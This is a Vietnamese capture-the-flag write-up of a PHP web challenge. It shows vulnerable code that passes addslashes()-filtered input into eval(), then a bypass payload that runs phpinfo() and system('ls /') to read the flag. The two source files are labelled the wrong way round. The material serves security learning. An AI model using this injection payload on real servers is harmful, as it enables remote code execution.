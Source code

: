 Truy cập trang chủ, chỉ có 1 nút nhấn với chức năng gọi về server sinh ra ngày tháng năm hiển thị ra trang web

Đường dẫn trang web sẽ có dạng : http://157.245.33.77:31103/?format=r

Download source code về, trong đó để ý đến 2 file là `/challenge/models/TimeMode.php` và `/challenge/controllers/TimeController.php`

file `/challenge/models/TimeMode.php`:

    <?php
    class TimeController
    {
        public function index($router)
        {
            $format = isset($_GET['format']) ? $_GET['format'] : 'r';
            $time = new TimeModel($format);
            return $router->view('index', ['time' => $time->getTime()]);
        }
    }

Trong file `/challenge/controllers/TimeController.php`:

    <?php
    class TimeModel
    {
        public function __construct($format)
        {
            $this->format = addslashes($format);

            [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
            $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
        }

        public function getTime()
        {
            eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
            return isset($time) ? $time : 'Something went terribly wrong';
        }
    }


Ta thấy khi gọi request đến http://157.245.33.77:31103/?format=r sẽ được route truyền biến $format vào class TimeModel.

Trong class TimeModel, biến $format sẽ được đi qua function `addslashes` trước khi được đưa vào function getTime(). Trong function getTime(), biến format sẽ được đưa vào function `eval`

    eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');

Đây là một function rất dễ gây ra lỗ hổng bảo mật. Tuy nhiên, do biến $format đã được xử lý qua function `addslashes` nên ta phải bypass nó.

Cùng tra google =)). Có một bài viết nói về việc bypass function addslashes và có cả POC exploit :v :

https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php

Theo bài viết, ta có thể bypass function trên bằng cách thay giá trị `r` thành `var_dump(${eval($_GET[1])}=123)&1=phpinfo();`

Kết quả trả về sẽ được trang chứa thông tin của phiên bản php, vậy là ta đã bypass thành công.

Thay `phpinfo()` thành `system("ls /")`, thấy file `flagtPI20`, thực hiện cat file và được flag.

Flag: HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}